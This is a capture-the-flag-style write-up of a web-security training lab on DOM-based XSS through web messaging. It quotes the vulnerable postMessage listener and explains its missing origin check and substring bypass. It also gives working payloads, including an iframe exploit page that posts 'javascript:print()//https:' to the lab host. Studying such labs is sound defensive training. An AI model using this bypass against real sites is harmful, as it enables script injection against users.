

# Lab: DOM XSS using Web Messages and a JavaScript URL


## Objective
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

---

## Analysis

### Initial Observation

- **Inspecting the Source Code:**
  
  - The JavaScript code responsible for the vulnerability:
    ```javascript
    <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>
    ```

### Code Analysis

1. **Blind Trust in `postMessage`:**
   - `e.data` can come from any iframe, window, or attacker.
   - **No Validation of `e.origin`:**
     - Any attacker can send a message to this page.
     - The message content is treated as a URL.
     - The page immediately redirects to that URL.

     > This is like leaving your house door open with a sign: “Come inside and take whatever you want.”

2. **Flawed Validation of URL:**
   - The code only checks if `http:` or `https:` appears anywhere in the string.
   - Example:
     ```javascript
     javascript:alert(1)//http:
     ```
     - The substring `//http:` makes `indexOf('http:')` valid.
     - **Result:** The check is bypassed, and XSS executes.

### Classic Attack Payload

- Attacker sends:
  ```javascript
  window.postMessage('javascript:alert(1)//https:', '*');
  ```
- Code Execution Flow:
  - Contains `https:` → **YES**
  - Redirect user → **YES**
  - Executes `javascript:alert(1)` → **YES**

> This is a classic DOM-based XSS via open redirect and JavaScript protocol execution.

### Vulnerable Sink

- The vulnerable sink is:
  ```javascript
  location.href = url;
  ```
  - A DOM-based sink that redirects the browser.
  - The attacker injects `javascript:` to execute malicious code.

---

## Exploitation

### Using the Exploit Server

1. **Craft the Payload:**
    ```html
    <iframe src="https://0af2008b0332850480d0031d00b50011.web-security-academy.net/" 
            onload="this.contentWindow.postMessage('javascript:print()//https:', '*')">
    </iframe>
    ```
2. **Explanation:**
    - The `iframe` loads the target site.
    - The `postMessage` method sends a malicious payload (`javascript:print()//https:`) to the target site.
3. **Result:**
    - The payload triggers the XSS vulnerability, solving the lab.

---

## Conclusion
By exploiting the insecure handling of `postMessage` and the flawed validation logic, we successfully triggered the DOM-based XSS vulnerability. This highlights the importance of validating and sanitizing user inputs, especially in web messaging scenarios.